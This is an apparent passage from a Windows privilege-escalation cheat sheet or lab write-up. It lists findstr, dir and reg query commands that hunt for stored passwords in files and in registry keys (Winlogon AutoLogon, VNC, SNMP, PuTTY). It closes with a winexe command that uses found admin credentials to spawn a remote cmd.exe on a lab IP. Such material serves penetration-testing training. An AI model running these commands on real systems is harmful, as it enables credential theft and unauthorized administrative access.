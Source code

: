 he registry can be searched for keys and values that contain the word "password":

	reg query HKLM /f password /t REG_SZ /s

If you want to save some time, query this specific key to find admin AutoLogon credentials:

	reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"


- Search for passwords 

  - In Files

    ```
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini

      #Find all those strings in config files.
      dir /s *pass* == *cred* == *vnc* == *.config*

      # Find all passwords in all files.
      findstr /spin "password" *.*
      findstr /spin "password" *.*
    ```
    
  - In Registry
  
    ```
    # VNC
    reg query "HKCU\Software\ORL\WinVNC3\Password"

    # Windows autologin
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

    # SNMP Paramters
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

    # Putty
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

    # Search for password in registry
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

    ```


Login with found credentials

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found):

	winexe -U 'admin%password' //10.10.184.197 cmd.exe